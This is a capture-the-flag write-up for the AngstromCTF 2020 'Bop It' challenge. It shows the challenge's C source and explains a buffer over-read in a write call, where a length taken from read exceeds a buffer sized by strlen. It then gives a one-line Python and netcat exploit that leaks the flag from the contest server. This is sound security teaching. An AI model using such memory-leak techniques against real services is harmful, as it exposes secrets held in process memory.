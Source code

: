 ```yaml
---
layout: post
title: AngstromCTF 2020 - Bop It
excerpt: "Writeup for memory leak challenge from AngstromCTF 2020"
categories: [AngstromCTF 2020]
---
```


Bop It was the third challenge in the Binary section of AngstromCTF. Although the bug was fairly simple, the challenge only accumulated 162 solves. The challenge supplies us with an executable and some source code (below).

{% highlight c %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}
{% endhighlight %}

Upon first glance the code looks somewhat complicated. After some trial and error though, it is clear that there is a bug in the `write` call when action is "Flag It!". The variable `wrong` is initialized with a size of `strlen(guess)+35`, and is written to stdout. The problem is that the strlen function stops at null bytes, but the guessLen variable will not (it is set from the read function). Whenever guessLen+35 is larger than the `wrong` variable to be written, `write` will continue to give data after the end of the `wrong` buffer, and memory will be leaked. Seeing that the flag has been opened whenever the vulnerable write is called reassures us that we are on the right track.

Since the exploit is simple I used inline python. You can see that it takes a few times before hitting the "Flag It!" action, but once we do memory is leaked.

```
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Twist it!
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Flag it!
 was wrong. Better luck next time!
?GXU?GXU"?GXUactf{bopp1ty_bop_bOp_b0p}?"?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~      root@9903d51849b1 /pwn# 
```

In this string we can see `actf{bopp1ty_bop_bOp_b0p}` which is the flag to the challenge!